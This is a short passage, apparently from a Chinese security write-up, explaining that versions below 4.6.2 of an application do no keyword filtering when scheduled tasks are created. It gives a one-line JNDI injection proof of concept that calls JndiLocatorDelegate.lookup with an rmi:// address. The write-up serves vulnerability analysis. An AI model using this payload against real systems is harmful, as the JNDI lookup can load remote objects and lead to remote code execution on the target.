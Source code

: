 ![image-20240305234736910](assets/1710465660-a028f9c7d69f595c72df9cdc17494c99.png)

## < 4.6.2

### rmi

上边的分析是拿 4.6.2 版本分析的，在创建定时任务时会判断目标字符串中有没有 rmi 关键字。后边有拐回来看一下，发现在 4.6.2 版本以下，在创建定时任务时是没有任何过滤的。

![image-20240306182957873](assets/1710465660-3f7410a372e3aff89c894c461e5cbbdf.png)

所以在补充一个 rmi 的 poc：

```php
org.springframework.jndi.JndiLocatorDelegate.lookup('rmi://127.0.0.1:1099/refObj')
```
